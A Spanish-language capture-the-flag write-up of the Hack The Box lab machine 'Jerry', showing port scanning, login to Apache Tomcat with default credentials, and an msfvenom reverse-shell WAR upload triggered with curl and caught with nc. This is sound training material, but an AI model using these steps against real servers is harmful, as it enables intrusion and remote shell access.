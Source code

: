 ```yaml
---
title: Jerry - HTB Writeup
date: 2023-09-06 22:00:00
categories: [Writeups, HTB]
tags: [Easy, Windows]
image:
  path: /assets/img/post/jerry/catherine-heath-i4W8OINLI_I-unsplash.jpg
---
```


**Jerry** es una máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

En esta máquina explotaremos una vulnerabilidad en el servicio ```Apache``` por el puerto ```8080```

## **Reconocimiento**

Como siempre utilizaremos la herramienta ```nmap``` para reportar los puertos abiertos en la máquina víctima:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts
```

![img](/assets/img/post/jerry/feb426c5-b454-4f82-aaa7-5949a66c0751.png)

En la máquina esta abierto solamente el puerto ```8080``` , si introducimos la ```URL``` en el buscador junto al puerto, podemos ver lo siguiente:

![img](/assets/img/post/jerry/0701b41c-55c8-4188-ba3f-75cf0c92fbcc.png)

Podemos **loguearnos** en el servicio **Apache Tomcat** con las credenciales predeterminadas ```tomcat:s3cret```:

![img](/assets/img/post/jerry/658a5dde-829f-4032-8068-8d70f427a1e0.png)

Vemos que hay una sección donde podemos **subir archivos** ```.war``` , la cual usaremos para conseguir acceso al sistema: 

![img](/assets/img/post/jerry/f13630bf-58f1-4988-bdea-0e9e224c5fc1.png)

### Web Aplication Resource Files

> Un archivo ```WAR```, es un formato de archivo utilizado para **empaquetar y distribuir aplicaciones web** en la plataforma **Java**. Este contiene todos los recursos necesarios para ejecutar una aplicación web en un solo archivo comprimido.

## Explotación

Usaremos la herramienta ```msfvenom``` para crear una ```reverse shell``` en windows y poder acceder mediante ```nc```:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war > rev_shell.war
```

![img](/assets/img/post/jerry/6f231e1c-e4ea-4e1c-a7ea-c9341910e71c.png)

Además deberemos saber el nombre del archivo ```.jsp``` para activarla con la herramienta ```curl``` , por lo tanto usaremos ```jar``` para enumerar el contenido del archivo ```.war```:

![img](/assets/img/post/jerry/bc65ae69-5fe0-4c28-a763-84e8280629c9.png)

Ahora subiremos la reverse shell, mediante la web utilizando ```curl``` , nos pondremos en escucha en otra terminal mediante ```nc```:

```bash
curl http://10.10.10.95:8000/rev_shell/mdeonxmbgy.jsp
```

![img](/assets/img/post/jerry/7bd0c1bc-d7de-4a35-b8df-496fc4bce938.png)

De esta manera ya tendremos acceso completo a la máquina víctima, en donde podremos encontrar las flags en el ```Desktop``` del usuario ```administrator```.

Espero que haya ayudado, se agradece cualquier tipo de comentario para mejorar poco a poco. Adios!